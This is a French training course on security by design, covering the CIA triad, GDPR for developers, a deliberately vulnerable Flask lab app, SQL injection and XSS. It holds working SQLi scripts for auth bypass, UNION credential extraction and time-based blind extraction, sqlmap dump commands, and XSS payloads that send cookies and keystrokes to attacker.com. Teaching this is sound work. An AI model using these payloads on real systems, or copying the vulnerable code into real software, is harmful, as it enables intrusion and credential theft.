









# Security By Design: SÉANCE 1 : Fondamentaux et vulnérabilités d'injection (3h30)

---

## Module 1.1 - Fondamentaux de la sécurité (30 min)

### 1.1.1 La triade CIA

La sécurité de l'information repose sur trois piliers fondamentaux :

**Confidentialité (Confidentiality)**
- Garantir que l'information n'est accessible qu'aux personnes autorisées
- Mécanismes : chiffrement (TLS pour le transit, AES au repos), contrôle d'accès (RBAC, moindre privilège), authentification forte (MFA)
- Exemple de violation : fuite de base de données utilisateurs

**Intégrité (Integrity)**
- Garantir que les données ne sont pas altérées de manière non autorisée
- Mécanismes : hashage (SHA-256, HMAC), signatures numériques (JWT, TLS), contraintes BDD (PK, FK, ACID), journalisation d'audit
- Exemple de violation : modification non autorisée d'une transaction bancaire

**Disponibilité (Availability)**
- Garantir l'accès aux services pour les utilisateurs légitimes
- Mécanismes : redondance (N+1), load balancing, protection DDoS (WAF, rate limiting), PRA/PCA (backups chiffrés, restauration testée)
- Exemple de violation : attaque par déni de service

Les trois piliers sont interdépendants : un système qui garantit la confidentialité mais perd la disponibilité n'est pas sécurisé. Les mesures de sécurité doivent couvrir les trois axes simultanément.



### 1.1.2 Concepts clés

**Surface d'attaque** : ensemble des points d'entrée d'une application susceptibles d'être exploités
- Points d'entrée utilisateur (formulaires, URL, headers HTTP)
- APIs exposées
- Dépendances tierces
- Infrastructure (serveurs, BDD, cache)

**Vecteur d'attaque** : chemin emprunté par un attaquant pour exploiter une vulnérabilité
- Injection (SQL, commandes, LDAP)
- Manipulation côté client (XSS, CSRF)
- Élévation de privilèges
- Ingénierie sociale

**Vulnérabilité vs Exploit vs Payload**
- **Vulnérabilité** : faiblesse dans le système
- **Exploit** : technique pour tirer parti de la vulnérabilité
- **Payload** : code malveillant exécuté via l'exploit

**Chaîne d'attaque** : l'attaquant découvre une vulnérabilité, développe un exploit (script, outil) qui délivre un payload (code malveillant). Le payload est l'étape finale qui réalise l'objectif (exfiltration de données, élévation de privilèges, déni de service).



### 1.1.3 Principes Security by Design

1. **Defense in depth** (défense en profondeur) : plusieurs couches de sécurité
2. **Least privilege** (moindre privilège) : accorder uniquement les droits nécessaires
3. **Fail securely** : en cas d'erreur, l'état doit rester sûr
4. **Zero trust** : ne jamais faire confiance, toujours vérifier
5. **Security by default** : configuration sécurisée par défaut
6. **Keep it simple** : la complexité est ennemie de la sécurité

### 1.1.4 Cycle de vie d'une vulnérabilité



**CVE (Common Vulnerabilities and Exposures)** : référence standardisée
**CVSS (Common Vulnerability Scoring System)** : score de gravité de 0 à 10
- 0.1 - 3.9 : Faible
- 4.0 - 6.9 : Moyen
- 7.0 - 8.9 : Élevé
- 9.0 - 10.0 : Critique

---

## Module 1.2 - RGPD pour développeurs (20 min)

### 1.2.1 Principes fondamentaux

Le RGPD (Règlement Général sur la Protection des Données) impose des obligations techniques :

**Article 5 - Principes**
- **Licéité, loyauté, transparence** : base légale claire
- **Limitation des finalités** : usage déterminé
- **Minimisation** : collecter le strict nécessaire
- **Exactitude** : données à jour
- **Limitation de conservation** : durée définie
- **Intégrité et confidentialité** : sécurité technique

**Article 25 - Privacy by Design and by Default**
- Protection des données dès la conception
- Paramètres protecteurs par défaut

**Privacy by Design en pratique** :
- **Minimisation** : ne stocker que les champs nécessaires (ex. âge au lieu de la date de naissance complète)
- **Pseudonymisation** : remplacer l'email par un identifiant pseudonyme dans les logs applicatifs
- **Sécurité par défaut** : profil privé, MFA proposé à l'inscription, désactivation du tracking
- **Consentement tracé** : horodatage de chaque consentement, possibilité de révoquer à tout moment

**Cycle de vie d'une donnée personnelle** :



### 1.2.2 Implémentation technique en Python

```python
# Exemple : minimisation des données dans un modèle
from datetime import datetime, timedelta
from dataclasses import dataclass

@dataclass
class User:
    email: str
    hashed_password: str
    consent_marketing: bool = False
    consent_date: datetime = None
    deletion_date: datetime = None  # Suppression automatique

    def request_deletion(self):
        """Droit à l'effacement (Art. 17)"""
        self.deletion_date = datetime.now() + timedelta(days=30)

    def export_data(self):
        """Droit à la portabilité (Art. 20)"""
        return {
            'email': self.email,
            'consents': {
                'marketing': self.consent_marketing,
                'date': self.consent_date.isoformat() if self.consent_date else None
            }
        }
```

### 1.2.3 Obligations en cas de fuite

- **Notification CNIL** : sous 72h
- **Notification aux personnes concernées** : si risque élevé
- **Documentation** : registre des violations
- **Sanctions** : jusqu'à 4% du CA mondial ou 20M€

**Processus de notification** :



---

## Module 1.3 - Mise en place de l'environnement (30 min)

### 1.3.1 Installation de l'application vulnérable

Pour cette formation, nous utiliserons une application Flask volontairement vulnérable développée en Python, complétée par Juice Shop pour certains exercices.

**Application Python vulnérable - VulnPyApp**

Le code source de l'application est fourni dans le dossier `vulnpyapp/` du dépôt de la formation (lien fourni par l'enseignant).

```bash
# Se placer dans le dossier de l'application
cd vulnpyapp

# Environnement virtuel
python3 -m venv venv
source venv/bin/activate  # Linux/Mac
# venv\Scripts\activate   # Windows

# Installation des dépendances
pip install -r requirements.txt

# Initialisation de la base de données (utilisateurs, produits, commandes de test)
python init_db.py

# Lancement
python app.py
# Accessible sur http://localhost:5000
```

**Structure de l'application** :

```
vulnpyapp/
├── app.py              # Application Flask principale (routes vulnérables)
├── models.py           # Modèles SQLAlchemy (User, Product, Order, Comment)
├── config.py           # Configuration (cookies non sécurisés, MD5...)
├── init_db.py          # Initialisation BDD + comptes de test
├── vulnpyapp.db        # SQLite (généré par init_db.py)
├── templates/          # Templates Jinja2 (search, profile, comments...)
├── static/             # Assets statiques (style.css)
├── uploads/            # Dossier pour /download (path traversal)
├── solutions/          # Scripts d'exploit (enseignant uniquement)
├── tests/              # Tests pytest
├── requirements.txt
├── Dockerfile          # Conteneur prêt-à-l'emploi
└── docker-compose.yml
```

**Comptes de test (fournis par `init_db.py`)** :

| Email | Mot de passe | Rôle |
|-------|--------------|------|
| `admin@vulnpyapp.local` | `Admin123!` | admin |
| `alice@vulnpyapp.local` | `Alice123!` | utilisateur |
| `bob@vulnpyapp.local` | `Bob123!` | utilisateur |

### 1.3.2 Outils nécessaires

```bash
# Outils Python pour la sécurité
pip install requests           # Requêtes HTTP
pip install beautifulsoup4     # Parsing HTML
pip install sqlparse           # Analyse SQL
pip install bandit             # SAST Python
pip install safety             # Audit dépendances
```

**Outils complémentaires** :
- **Burp Suite Community** : proxy d'interception
- **OWASP ZAP** : scanner automatisé
- **Postman / Insomnia** : tests d'API

### 1.3.3 Cartographie de l'application

**Exercice guidé : exploration systématique**

```python
# scripts/explore.py - Outil de cartographie
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin, urlparse

class AppMapper:
    def __init__(self, base_url):
        self.base_url = base_url
        self.visited = set()
        self.endpoints = []
        self.forms = []

    def crawl(self, url=None):
        url = url or self.base_url
        if url in self.visited:
            return
        self.visited.add(url)

        try:
            response = requests.get(url, timeout=5)
            soup = BeautifulSoup(response.text, 'html.parser')

            # Collecte des formulaires (points d'entrée critiques)
            for form in soup.find_all('form'):
                self.forms.append({
                    'action': urljoin(url, form.get('action', '')),
                    'method': form.get('method', 'GET').upper(),
                    'inputs': [i.get('name') for i in form.find_all('input')]
                })

            # Collecte des liens
            for link in soup.find_all('a', href=True):
                full_url = urljoin(url, link['href'])
                if urlparse(full_url).netloc == urlparse(self.base_url).netloc:
                    self.endpoints.append(full_url)
                    self.crawl(full_url)
        except Exception as e:
            print(f"Erreur sur {url}: {e}")

    def report(self):
        print(f"\n=== Endpoints découverts : {len(self.endpoints)} ===")
        for e in set(self.endpoints):
            print(f"  - {e}")
        print(f"\n=== Formulaires découverts : {len(self.forms)} ===")
        for f in self.forms:
            print(f"  - {f['method']} {f['action']} : {f['inputs']}")

if __name__ == '__main__':
    mapper = AppMapper('http://localhost:5000')
    mapper.crawl()
    mapper.report()
```

---

## Module 1.4 - Injections SQL (50 min)

### 1.4.1 Principe fondamental

Une injection SQL exploite le fait que des données utilisateur sont concaténées dans une requête SQL sans échappement, permettant la modification de la logique de la requête.

```python
# CODE VULNÉRABLE - À NE JAMAIS UTILISER
import sqlite3

def login(email, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()

    # 🚨 DANGER : concaténation directe
    query = f"SELECT * FROM users WHERE email = '{email}' AND password = '{password}'"
    cursor.execute(query)
    return cursor.fetchone()
```

**Avec l'input malveillant** `email = "admin@vulnpyapp.local' --"` :
```sql
SELECT * FROM users WHERE email = 'admin@vulnpyapp.local' --' AND password_hash = '...'
-- Le -- transforme la suite en commentaire SQL
```

**Fonctionnement** : sans paramétrage, l'input utilisateur est concaténé directement dans la requête SQL. Il devient partie intégrante de la commande, ce qui permet de modifier la logique (bypass du WHERE, UNION vers d'autres tables, appels de fonctions).



### 1.4.2 Types d'injections SQL

**1. Injection in-band (classique)**
- **Error-based** : exploite les messages d'erreur
- **UNION-based** : utilise UNION pour récupérer des données

**2. Injection blind (aveugle)**
- **Boolean-based** : déduit l'information via vrai/faux
- **Time-based** : utilise les délais d'exécution

**3. Injection out-of-band**
- Exfiltration via canal externe (DNS, HTTP)

**Choix de la technique** : si l'application affiche des erreurs SQL ou les résultats, on utilise les techniques in-band. Si la réponse est muette, on passe en blind (déduction par vrai/faux ou temporisation). L'out-of-band est utilisé quand on ne peut pas recevoir la réponse directement.



### 1.4.3 Exploitation pratique

**Exemple 1 : Bypass d'authentification**

```python
# scripts/sqli_auth_bypass.py
import requests

url = "http://localhost:5000/login"

# Payloads classiques de bypass
payloads = [
    "admin@vulnpyapp.local' --",
    "admin@vulnpyapp.local' OR '1'='1",
    "' OR 1=1 --",
    "admin' /*",
    "' OR 'x'='x",
]

for payload in payloads:
    data = {'email': payload, 'password': 'anything'}
    response = requests.post(url, data=data, allow_redirects=False)

    if response.status_code == 302 or 'dashboard' in response.text.lower():
        print(f"✅ BYPASS RÉUSSI avec : {payload}")
        print(f"   Cookie : {response.cookies.get('session')}")
        break
    else:
        print(f"❌ Échec : {payload}")
```

**Exemple 2 : Extraction de données avec UNION**

```python
# scripts/sqli_union.py
import requests
import re

url = "http://localhost:5000/search"

# Étape 1 : déterminer le nombre de colonnes
for n in range(1, 10):
    payload = f"' UNION SELECT {','.join(['NULL']*n)} --"
    r = requests.get(url, params={'q': payload})
    if 'error' not in r.text.lower():
        print(f"✅ Nombre de colonnes : {n}")
        num_cols = n
        break

# Étape 2 : extraire les noms de tables (SQLite)
payload = f"' UNION SELECT name,{'NULL,'*(num_cols-2)}NULL FROM sqlite_master WHERE type='table' --"
r = requests.get(url, params={'q': payload})
tables = re.findall(r'<td>(\w+)</td>', r.text)
print(f"📋 Tables découvertes : {tables}")

# Étape 3 : extraire les données sensibles
payload = f"' UNION SELECT email||':'||password,{'NULL,'*(num_cols-2)}NULL FROM users --"
r = requests.get(url, params={'q': payload})
credentials = re.findall(r'<td>([\w@.]+:\w+)</td>', r.text)
print(f"🔓 Credentials extraits : {credentials}")
```

**Exemple 3 : Blind SQLi time-based via /search**

VulnPyApp expose `/search?q=...` qui concatène l'entrée dans `SELECT * FROM products WHERE name LIKE '%...%'`. On peut détourner cette injection pour extraire des données d'autres tables via une logique conditionnelle (les requêtes coûteuses ralentissent volontairement la réponse).

```python
# scripts/sqli_blind.py
import requests
import time
import string

url = "http://localhost:5000/search"

def extract_char_at_position(position):
    """Extrait un caractère du hash MD5 admin à une position donnée"""
    for char in string.hexdigits.lower():
        # SUBSTR(password_hash, position, 1) = char
        # Si vrai → randomblob(100000000) force un calcul long
        # Si faux → réponse immédiate
        payload = (
            f"x%' AND (SELECT CASE WHEN "
            f"(SUBSTR((SELECT password_hash FROM users WHERE email='admin@vulnpyapp.local'),"
            f"{position},1)='{char}') "
            f"THEN randomblob(100000000) ELSE 0 END)--"
        )
        start = time.time()
        requests.get(url, params={'q': payload})
        elapsed = time.time() - start

        if elapsed > 2:  # Si délai significatif → caractère trouvé
            return char
    return None

password_hash = ""
for pos in range(1, 33):  # MD5 = 32 caractères
    char = extract_char_at_position(pos)
    if not char:
        break
    password_hash += char
    print(f"Position {pos}: {char} → hash partiel = {password_hash}")
```

### 1.4.4 Automatisation avec SQLMap

```bash
# Détection automatique
sqlmap -u "http://localhost:5000/search?q=test" --batch

# Extraction des bases
sqlmap -u "http://localhost:5000/search?q=test" --dbs

# Extraction d'une table
sqlmap -u "http://localhost:5000/search?q=test" -D main -T users --dump
```

### 1.4.5 Correction : requêtes paramétrées

**Méthode 1 : sqlite3 avec placeholders**

```python
# ✅ CODE SÉCURISÉ
import sqlite3

def login(email, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()

    # Les ? sont des placeholders, les paramètres sont échappés automatiquement
    query = "SELECT * FROM users WHERE email = ? AND password = ?"
    cursor.execute(query, (email, password))
    return cursor.fetchone()
```

**Méthode 2 : ORM SQLAlchemy (recommandé)**

```python
# ✅ CODE SÉCURISÉ avec ORM
from sqlalchemy import create_engine, Column, Integer, String
from sqlalchemy.ext.declarative import declarative_base
from sqlalchemy.orm import sessionmaker

Base = declarative_base()

class User(Base):
    __tablename__ = 'users'
    id = Column(Integer, primary_key=True)
    email = Column(String, unique=True)
    password = Column(String)

engine = create_engine('sqlite:///database.db')
Session = sessionmaker(bind=engine)

def login(email, password):
    session = Session()
    # L'ORM gère le paramétrage automatiquement
    user = session.query(User).filter(
        User.email == email,
        User.password == password
    ).first()
    return user
```

**Méthode 3 : avec Flask-SQLAlchemy**

```python
# ✅ CODE SÉCURISÉ avec Flask
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True)
    password_hash = db.Column(db.String(255))

@app.route('/login', methods=['POST'])
def login():
    email = request.form['email']
    user = User.query.filter_by(email=email).first()
    if user and verify_password(request.form['password'], user.password_hash):
        # Connexion réussie
        ...
```

### 1.4.6 Défenses en profondeur

```python
# Validation d'entrée avec Pydantic
from pydantic import BaseModel, EmailStr, constr

class LoginRequest(BaseModel):
    email: EmailStr  # Validation format email
    password: constr(min_length=8, max_length=128)

@app.route('/login', methods=['POST'])
def login():
    try:
        data = LoginRequest(**request.json)
    except ValidationError as e:
        return jsonify({'error': 'Invalid input'}), 400

    # Données validées et typées
    user = User.query.filter_by(email=data.email).first()
    ...
```

---

## Module 1.5 - Cross-Site Scripting / XSS (50 min)

### 1.5.1 Principe et types

Le XSS permet d'injecter du JavaScript exécuté dans le navigateur d'autres utilisateurs.

**Impacts classiques** :
- Vol de cookies de session (si non `HttpOnly`)
- Défiguration de page, redirection vers des sites de phishing
- Keylogging et capture des frappes utilisateur
- Actions non autorisées via les API (changement de mot de passe, transactions)

**Reflected XSS** : le payload est dans la requête, immédiatement reflété dans la réponse
```python
# 🚨 VULNÉRABLE
@app.route('/search')
def search():
    query = request.args.get('q', '')
    return f"<h1>Résultats pour : {query}</h1>"
# /search?q=<script>alert('XSS')</script>
```

**Stored XSS** : le payload est stocké en BDD et exécuté pour chaque visiteur
```python
# 🚨 VULNÉRABLE
@app.route('/comment', methods=['POST'])
def add_comment():
    comment = request.form['comment']
    db.add_comment(comment)  # Stocké tel quel
    return redirect('/comments')

@app.route('/comments')
def show_comments():
    comments = db.get_comments()
    html = ""
    for c in comments:
        html += f"<div>{c}</div>"  # Pas d'échappement !
    return html
```

**DOM-based XSS** : manipulation côté client uniquement
```javascript
// 🚨 VULNÉRABLE - côté client
const params = new URLSearchParams(window.location.search);
document.getElementById('welcome').innerHTML = 'Bonjour ' + params.get('name');
// /page?name=
```

**Différence entre les trois types** : le XSS reflété est non persistant (transmis via un lien), le XSS stocké persiste en base de données et touche tous les visiteurs, le XSS DOM-based ne quitte jamais le navigateur (manipulation du DOM local).

```mermaid
graph TD
    subgraph Reflected
        A1[Attaquant envoie un lien piégé] --> A2[Victime clique]
        A2 --> A3[Payload dans l'URL]
        A3 --> A4[Reflété dans la réponse HTML]
        A4 --> A5[Script exécuté<br/>Victime unique]
    end
    subgraph Stored
        B1[Attaquant poste un commentaire] --> B2[Payload stocké en BDD]
        B2 --> B3[Chaque visiteur charge la page]
        B3 --> B4[Payload chargé depuis la BDD]
        B4 --> B5[Script exécuté<br/>Tous les visiteurs]
    end
    subgraph DOM-based
        C1[URL avec paramètre/fragment] --> C2[Page statique chargée]
        C2 --> C3[JS lit location.hash / paramètre]
        C3 --> C4[innerHTML injecte le code]
        C4 --> C5[Script exécuté<br/>Côté client uniquement]
    end
```



### 1.5.2 Exploitation pratique

**Exemple 1 : XSS Reflected - vol de cookie**

```python
# scripts/xss_reflected.py
import requests

target = "http://localhost:5000/search"
attacker_server = "http://attacker.com/steal"

# Payload qui exfiltre le cookie de session
payload = f"""<script>
fetch('{attacker_server}?c=' + encodeURIComponent(document.cookie))
</script>"""

# Lien malveillant à envoyer à la victime
malicious_url = f"{target}?q={requests.utils.quote(payload)}"
print(f"🎣 URL de phishing : {malicious_url}")
```

**Exemple 2 : XSS Stored - keylogger**

```html
<!-- Payload posté en commentaire -->
<script>
document.addEventListener('keypress', function(e) {
    fetch('http://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify({key: e.key, url: location.href})
    });
});
</script>
```

**Exemple 3 : Contournement de filtres**

```python
# Filtres courants et bypass
filters_bypass = [
    # Filtre <script> → utiliser un événement
    "",

    # Filtre des guillemets → utiliser sans guillemets
    "<svg onload=alert(1)>",

    # Filtre 'alert' → encodage
    "",

    # Filtre HTML basique → encodage HTML
    "&#60;script&#62;alert(1)&#60;/script&#62;",

    # Filtre mots-clés → casse mixte
    "<ScRiPt>alert(1)</ScRiPt>",

    # Polyglot universel
    "javascript:/*--></title></style></textarea></script></xmp>"
    "<svg/onload='+/\"/+/onmouseover=1/+/[*/[]/+alert(1)//'>",
]
```

### 1.5.3 Protection en Python/Flask

**Méthode 1 : Échappement automatique avec Jinja2**

```python
# ✅ SÉCURISÉ - Jinja2 échappe automatiquement
from flask import render_template

@app.route('/search')
def search():
    query = request.args.get('q', '')
    return render_template('search.html', query=query)
```

```html
<!-- templates/search.html -->
<!-- {{ query }} est automatiquement échappé -->
<h1>Résultats pour : {{ query }}</h1>

<!-- ATTENTION : | safe désactive l'échappement → DANGER -->
<h1>{{ query | safe }}</h1>  <!-- 🚨 VULNÉRABLE -->
```

**Méthode 2 : Échappement manuel**

```python
# ✅ SÉCURISÉ - échappement explicite
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('q', '')
    return f"<h1>Résultats pour : {escape(query)}</h1>"
```

**Méthode 3 : Sanitization avec bleach (pour HTML riche)**

```python
# ✅ SÉCURISÉ - autoriser certaines balises sûres
import bleach

ALLOWED_TAGS = ['b', 'i', 'em', 'strong', 'p', 'br']
ALLOWED_ATTRIBUTES = {}

@app.route('/comment', methods=['POST'])
def add_comment():
